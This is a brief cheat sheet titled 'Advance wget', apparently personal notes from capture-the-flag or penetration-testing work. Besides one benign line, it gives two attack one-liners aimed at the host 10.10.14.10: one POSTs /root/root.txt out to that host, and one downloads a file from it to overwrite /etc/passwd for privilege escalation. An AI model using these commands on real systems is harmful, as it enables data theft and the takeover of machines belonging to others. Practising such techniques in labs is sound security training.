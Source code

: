 ```yaml
---
title: "Advance wget"
date: 2024-7-5
tags: ["wget", "file transfer", "http", "web"]
---
```


---
### Advance wget

```bash
# Provide a file with urls
wget --input-file /root/root.txt
```

```bash
# POST a file
wget --post-file /root/root.txt http://10.10.14.10
```

```bash
# Overwrite a file
wget http://10.10.14.10/passwd.txt -O /etc/passwd
```

<br>